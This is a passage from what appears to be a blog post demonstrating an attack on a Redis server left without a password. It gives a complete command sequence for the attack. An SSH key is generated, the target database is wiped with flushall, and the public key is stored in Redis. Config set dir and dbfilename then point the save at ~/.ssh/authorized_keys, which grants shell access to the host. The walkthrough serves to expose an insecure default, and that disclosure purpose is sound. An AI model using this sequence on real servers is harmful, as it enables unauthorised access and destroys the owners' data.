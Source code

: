Works, and no AUTH required. Redis is unprotected without a password set up, and so forth. The simplest thing you can do in such a case, is to write random files. Guess what? my Macbook Air happens to run an SSH server. What about trying to write something into ~/ssh/authorized_keys in order to gain access?

Let’s start generating a new SSH key:

$ ssh-keygen -t rsa -C "crack@redis.io"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/antirez/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
f0:a1:52:e9:0d:5f:e4:d9:35:33:73:43:b4:c8:b9:27 crack@redis.io
The key's randomart image is:
+--[ RSA 2048]----+
|          .   O+.|
|       . o o..o*o|
|      = . + .+ . |
|     o B o    .  |
|    . o S    E . |
|     .        o  |
|                 |
|                 |
|                 |
+-----------------+

Now I’ve a key. My goal is to put it into the Redis server memory, and later to transfer it into a file, in a way that the resulting authorized_keys file is still a valid one. Using the RDB format to do this has the problem that the output will be binary and may in theory also compress strings. But well, maybe this is not a problem. To start let’s pad the public SSH key I generated with newlines before and after the content:

$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt

Now foo.txt is just our public key but with newlines. We can write this string inside the memory of Redis using redis-cli:

$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit

Looks good. How to dump our memory content into the authorized_keys file? That’s
kinda trivial.

$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get dir
1) "dir"
2) "/Users/antirez/.ssh"
192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
192.168.1.11:6379> save
OK
